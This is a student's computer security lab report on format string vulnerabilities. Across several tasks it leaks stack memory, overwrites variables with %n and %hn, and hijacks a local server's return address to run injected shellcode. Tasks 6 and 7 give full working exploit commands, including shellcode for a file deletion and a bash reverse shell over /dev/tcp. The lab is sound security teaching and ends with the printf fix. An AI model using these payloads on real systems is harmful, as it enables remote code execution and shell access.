


# Computer_security_lab3

**Name: **黎诗龙

**SID: **11811407

### Task1

Running test:

### Task2

#### Question1:

First I use `gdb ./server` and `disass main` to check the return address of myprintf() in the main function.

And then I type the string `%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.` in the client command line window to print contents in the stack, and I get this:

Now I see the RA in the stack of myprintf().

And from `78382e25` there is a loop, which corresponds to the string I input `%.8x.%.8x........`, which is little-ended.

And I know the address of the 'msg' argument is `0xbf9fae80`, and from the stack picture in the lab slide, I can get the address of **1** is `0xbf9fae80-8*4=0xbf9fae60`, the address of **2** is `0xbf9fae80-4=0xbf9fae7c`, the address of **3** is `0xbf9fae80+16*4=0xbf9faec0`.

| Location | Memory address |
| -------- | -------------- |
| 1        | 0xbf9fae60     |
| 2        | 0xbf9fae7c     |
| 3        | 0xbf9faec0     |

#### Question2:

The distance is `0x60`.

### Task3

I input the string `%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s`, and then the program crash, because in some address %s let the pointer accesses an invalid address.

### Task4

#### Task4A

In the screenshot of [Task2Q1](#Question1), I use 24 `%.8x` to get first 4 bytes of my input.

#### Task4B

From [Task4A](#Task4A), using 23 `%.8x` and 1 `%s` to print the secret string.

### Task 5

#### Task5A

I use the command `echo $(printf "\x40\xa0\x04\x08")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%n | nc -u localhost 9090` to change the value.

Target value `0x11223344` $\to$ `0x000000bc`.

#### Task5B

I must print `5*16*16` bytes before `%n`.

Here I use the command `echo $(printf "\x40\xa0\x04\x08")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.1100x%n | nc -u localhost 9090`.

Here is how to calculate 1100: `5*16*16-8*22-4=1100`.

#### Task5C

I must print `0xff99` character before `%hn`(to write in the address `0x0804a042`), and add it to `0x10000` before another `%hn`(to write in the address `0x0804a040`)

`0xff99=655433`

`655433-4*3-22*8=65245`, which I put it into the 23rd position of `%.8x`, to overwrite the high address, `65536-65245=103`, so I put it between 2 `%hn` to cumulate the number to `65536`, and overwrite the low address. Altogether I change the value to `0xff990000`.

### Task6

In this task I need to overwrite the value in the RA of `myprintf()` by the beginning address of the malicious shellcode.

From the [task2](#Task2) above we know that the distance between msg address and buf address is `0x40`, RA address =  msg address - 4.

And from the [Task4B](#Task4B), I must put 23 `%.8x` first to reach my buf address, then we need a `%hn` to overwrite the high 16 bits of RA address, and a `%.?x` to reach the number we need, and a `%hn` to overwrite the low 16 bits of RA address. All in all we need `23+1+1+1=26` offset in the buf.

**Approximately** the beginning address of the malicious shellcode is `'msg address' + 0x40+26*4(offset)`.

#### Invading process

1. First using `echo $(printf "\x76\x26\xba\xbf....\x74\x26\xba\xbf")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x $(printf "\x90\x90\x90\x90\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x68ile \x68/myf\x68/tmp\x68/rm \x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80") > inputbefore`  and `nc -u localhost 9090 < inputbefore` to check the address of msg.

   

   Here we can see the address of msg is `0xbf8454f0`. So the address of RA is `0xbfe9898c`, the approximate address of the beginning address is `0xbfe98a44`, and I change the 23rd of `%.8x` to `%.48941x (48941 = 0xbfe9-22*8-12)`. 

   Because `0x8a44<0xbfe9`, we must use overflow technique in [Task5C](#Task5C), the result of `0x18a44-0xbfe9` is 5 digits decimal number.

   And `%.48941x` is in the buf, which is stored 4 more bytes than `%.8x`, and `%hn` is stored 1 less byte than `%.8x`, so the **exact** beginning address of malicious code (Starting with '\x31') is `'msg address' + 0x40+26*4(offset)+12+10=0xbfe98a4e`, however we just using `'msg address' + 0x40+26*4(offset)+12+8=0xbfe98a4c` in the task because there are 4 **NOP** in the beginning. 

   `0x18a4c-0xbfe9=51811`, so I change the 25th `%.8x` to `%.51811x`.

   And change 24th and 26th `%.8x` to `%hn`.

   

2. Here is the successful code and screenshots

   `echo $(printf "\x8e\x89\xe9\xbf....\x8c\x89\xe9\xbf")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.48941x%hn%.51811x%hn $(printf "\x90\x90\x90\x90\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x68ile \x68/myf\x68/tmp\x68/rm \x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80") > inputafter`

#### Why put NOP at the beginning of shellcode?

Explanation:

NOP serves as a **"buffer"**, which means we can just calculate the **approximate** address of the beginning of shellcode and put it into RA. Because NOP does no operation.

If we have no NOPs, then we must calculate the address of the beginning of shellcode **exactly** and put it into RA, which is **troublesome**.

### Task7

Task7 is similar to [Task6](#Task6).

1. First modify the shellcode "`/bin/bash -i > /dev/tcp/127.0.0.1/7070 0<&1 2>&1`" between ① and ②, and the length of the shellcode is exactly 48 bytes, which is a multiple of 4. So we do not need to add more spaces.

2. Similar to [**Task6**](#Task6). 

   Using command`echo $(printf "\x76\x26\xba\xbf....\x74\x26\xba\xbf")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x $(printf "\x90\x90\x90\x90\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x682>&1\x68<&1 \x6870 0\x681/70\x680.0.\x68127.\x68tcp/\x68dev/\x68 > /\x68h -i\x68/bas\x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80") > task7before` and `nc -u localhost 9090` to check the address of msg.

   

   Here we can see the address of msg is `0xbf903320`. So the address of RA is `0xbf90331c`, the approximate address of the beginning address is `0xbf9033d4`, and I change the 23rd of `%.8x` to `%.48852x (48852 = 0xbf90-22*8-12)`. 

   Because `0x3320<0xbf90`, we must use overflow technique in [Task5C](#Task5C), the result of `0x13320-0xbf90` is 5 digits decimal number.

   And `%.48852x` is in the buf, which is stored 4 more bytes than `%.8x`, and `%hn` is stored 1 less byte than `%.8x`, so the exact beginning address of malicious code (the first **NOP**) is `'msg address' + 0x40+26*4(offset)+12+10=0xbf9033de`, however we just using `'msg address' + 0x40+26*4(offset)+12+8=0xbf9033dc` in the task because there are 4 **NOP** in the beginning. 

   `0x133dc-0xbf90=29772`, so I change the 25th `%.8x` to `%.29772x`.

   And change 24th and 26th `%.8x` to `%hn`.

3. 

   `echo $(printf "\x1e\x33\x90\xbf....\x1c\x33\x90\xbf")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.48852x%hn%.29772x%hn $(printf "\x90\x90\x90\x90\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x682>&1\x68<&1 \x6870 0\x681/70\x680.0.\x68127.\x68tcp/\x68dev/\x68 > /\x68h -i\x68/bas\x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80") > task7after` and `nc -u localhost 9090` to execute my malicious code.

### Task8

Explanation:

There is no format string, which can be exploited by users' codes. If users input the codes in the location of format string, it provides a chance for users to change the behavior of the function, and break the completeness of the program.

Modification:

`printf(msg);->printf("%s",msg);`.

After modification, the compiler does not give any warning. 

The attack does not work, here is an example.

